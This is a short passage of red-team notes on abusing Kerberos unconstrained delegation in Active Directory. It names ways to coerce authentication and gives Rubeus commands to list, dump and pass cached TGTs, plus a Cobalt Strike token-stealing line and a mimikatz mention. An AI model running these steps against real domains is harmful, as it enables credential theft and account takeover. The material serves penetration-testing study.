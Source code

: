 <figure><img src="../../.gitbook/assets/image (9) (5).png" alt=""><figcaption></figcaption></figure>

### Abuse

Unconstrained Delegation would cache the user's TGT regardless of which service is being accessed by the user. For example, if an administrator accesses a file share on the machine that uses Kerberos, their TGT will be cached.&#x20;

If we can compromise this machine, the TGTs can be extracted from memory and used to impersonate the users against other services in the domain.  This can be done through:

* Phishing
* Abuse of user clicking on certain files (like `.lnk` or `.scf` files)
* RPC, abusing `xp_dirtree`, using tools such as `SharpSpoolTrigger.exe`, etc... As long as are able to make one machine interact with another in some way.&#x20;

We can use `Rubeus.exe` to exploit this. Suppose that we have the use'rs TGT already cached on the machine (via forcing or scheduled task exploitation). We can use the `triage` and `dump` functions to retrieve this ticket:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># find all tickets
</strong><strong>Rubeus.exe triage
</strong><strong># dump tickets
</strong>Rubeus.exe dump /luid:0x14794e /nowrap
# pass this ticket
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:corp.local /username:administrator /password:password123 /ticket:&#x3C;TICKET>
# in cobalt strike
steal_token &#x3C;PID> 
</code></pre>

Alternatively, we can use `mimikatz` to exploit this by first exporting all tickets and then passing them along to allow us to access the remote file system or establish a remote Powershell session.
